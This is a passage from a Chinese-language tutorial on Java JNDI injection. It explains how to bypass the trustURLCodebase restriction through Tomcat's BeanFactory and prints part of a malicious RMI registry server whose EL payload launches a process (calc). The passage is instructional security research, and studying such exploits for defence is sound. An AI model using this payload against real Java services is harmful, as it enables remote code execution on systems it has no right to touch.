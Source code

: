 服务端代码可以参考marshalsec，然后添加对应属性javaSerializedData为我们的Gadgets序列化的数据即可



java

```java
e.addAttribute("javaSerializedData", GadgetsData);
```

#### 通过加载本地类

之前在分析RMI的时候提到过在加载远程类之前,会先加载本地类

在JDK 11.0.1、8u191、7u201、6u211之后之后com.sun.jndi.ldap.object.trustURLCodebase 属性的默认值为false，我们就不能再从远程的Codebase加载恶意的Factory类了,那假如加载的是本地类呢

需要注意的，该工厂类型必须实现**javax.naming.spi.ObjectFactory** 接口，因为在javax.naming.spi.NamingManager#getObjectFactoryFromReference最后的return语句对工厂类的实例对象进行了类型转换return (clas != null) ? (ObjectFactory) clas.newInstance() : null;；并且该工厂类至少存在一个 getObjectInstance() 方法才能在前面调用

（[这篇文章](https://xz.aliyun.com/t/[https://www.veracode.com/blog/research/exploiting-jndi-injections-java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java))的作者找到可利用的类为：**org.apache.naming.factory.BeanFactory**，并且该类存在于Tomcat依赖包中，所以利用范围还是比较广泛的。

添加如下依赖：

```java
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.0</version>
</dependency>

<dependency>
    <groupId>org.apache.el</groupId>
    <artifactId>com.springsource.org.apache.el</artifactId>
    <version>7.0.26</version>
</dependency>
```

服务端代码参考自[这篇文章](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)



java

```java
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class jndi_sever_rmi_local {

    public static void main(String[] args) throws Exception{

        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

```